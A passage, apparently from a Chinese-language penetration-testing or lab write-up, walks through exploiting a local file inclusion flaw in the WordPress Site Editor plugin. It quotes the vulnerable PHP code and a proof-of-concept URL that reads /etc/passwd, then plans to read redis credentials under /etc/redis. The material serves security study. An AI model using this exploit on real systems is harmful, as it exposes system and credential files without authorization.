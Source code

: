 第一个搜索结果说这里有本地文件包含，所以尝试进行本地文件包含。

```bash
Vulnerable code:
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

本地文件包含能够被执行

<img src="../Images/image-20230815173021332.png" alt="image-20230815173021332" style="zoom:80%;" />

发现这里上有redis用户，尝试使用本地文件包含加载redis的密码，通常来说`redis`的默认路径在`/etc/redis`中。

<img src="../Images/image-20230815174843628.png" alt="image-20230815174843628" style="zoom:80%;" />
